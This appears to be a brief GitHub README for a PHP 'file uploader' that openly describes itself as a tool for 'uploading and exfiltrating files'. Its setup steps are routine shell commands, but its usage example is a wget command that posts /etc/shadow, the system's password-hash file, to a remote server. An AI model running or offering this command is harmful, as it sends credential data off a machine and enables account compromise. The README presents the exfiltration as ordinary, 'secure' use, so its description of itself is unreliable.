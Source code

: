 # PHP File Uploader
A secure and efficient solution for uploading and exfiltrating files using PHP.

## Installation
1. Host the "upload.php" file on your server.

```
php -S 127.0.0.1:8080 -t .
```
2. Create the "upload" directory and configure its settings.

```
mkdir upload
```
3. Set the appropriate permissions for the "upload" folder (write-only).

```
cd upload && umask 555
```
4. Optionally, change the ownership of the "upload" folder to enhance security.

```
useradd dummy && chown dummy upload
```

## Usage
To upload a file to the server, use the following method as an example:

```
wget --post-file=/etc/shadow <server_ip>/upload.php?file=shadow
```

Replace <server_ip> with the IP address of your server and adjust the file path as needed.